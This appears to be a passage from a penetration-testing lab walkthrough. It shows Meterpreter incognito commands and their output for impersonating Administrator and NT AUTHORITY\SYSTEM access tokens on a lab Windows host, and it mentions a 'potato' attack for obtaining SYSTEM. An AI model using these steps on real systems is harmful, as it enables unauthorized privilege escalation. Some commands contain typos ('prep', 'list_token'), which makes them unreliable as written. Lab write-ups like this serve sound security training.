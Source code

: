 We have Administrator account's access token available, which will provide us with elevated privileges.

```
meterpreter > load incognito
meterpreter > list_tokens -u

Delegation Tokens Available
===========================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
==============================
No tokens available
```

In order to impersonate this particular access token:

```
meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > getprivs
[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.
meterpreter > prep explorer
3512
meterpreter > migrate 3512
meterpreter > getprivs
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
```

If you are in the situation, list out tokens available, you don't find any privileged access token available in regardless of whether the delegation tokens or impersonation tokens. You need to use protato attack, it will generate a `NT AUTHORITY\SYSTEM` access token that you can then impersonate the privilege associated with the `NT AUTHORITY` access token, or use the privileges associated with Administrator users.

```
meterpreter > list_token -u

Delegation Tokens Available
===========================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\SYSTEM
Windows Manager\DWM-1

Impersonation Tokens Available
==============================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
NT AUTHORITY\NETWORK SERVICE

meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs
```
